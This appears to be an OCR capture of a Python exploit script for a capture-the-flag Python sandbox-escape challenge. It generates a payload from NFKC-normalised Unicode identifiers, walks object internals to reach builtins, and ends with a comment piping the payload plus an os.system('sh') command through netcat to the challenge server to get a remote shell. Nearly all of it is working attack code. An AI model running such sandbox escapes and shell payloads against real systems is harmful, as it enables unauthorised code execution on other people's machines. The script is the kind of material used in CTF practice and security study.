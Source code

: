 ```python
chr_code = 0
for x in range(4700):
    while True:
        chr_code += 1
        char = unicodedata.normalize('NFKC', chr(chr_code))
        if char.isidentifier() and char not in names:
            names.append(char)
            break

offsets = {
    "__delitem__": 2800,
    "__getattribute__": 2850,
    '__dir__': 4693,
    '__repr__': 2128,
}

variables = ('keys', 'keys2', 'None_', 'NoneType',
             'm_repr', 'globals', 'builtins',)

for name, offset in offsets.items():
    names[offset] = name

for i, var in enumerate(variables):
    assert var not in offsets
    names[792 + i] = var


source = f'''[
({",".join(names)}) if [] else [],
None_ := [[]].__delitem__({_(0)}),
keys := None_.__dir__(),
NoneType := None_.__getattribute__({_.__class__}),
keys2 := NoneType.__dir__(NoneType),
get := NoneType.__getattribute__,
m_repr := get(
    get(get([],{_.__class__}),{_.__base__}),
    {_.__subclasses__}
)()[-{_(2)}].__repr__,
globals := get(m_repr, m_repr.__dir__()[{_(6)}]),
builtins := globals[[*globals][{_(7)}]],
builtins[[*builtins][{_(19)}]](
    builtins[[*builtins][{_(28)}]](), builtins
)
]'''.strip().replace('\n', '').replace(' ', '')

print(f"{len(source) = }", file=sys.stderr)
print(source)

# (python exp.py; echo '__import__("os").system("sh")'; cat -) | nc challenge.server port
12345678910111213141516171819202122232425262728293031323334353637383940414243444546474849505152535455565758596061626364656667686970717273
```
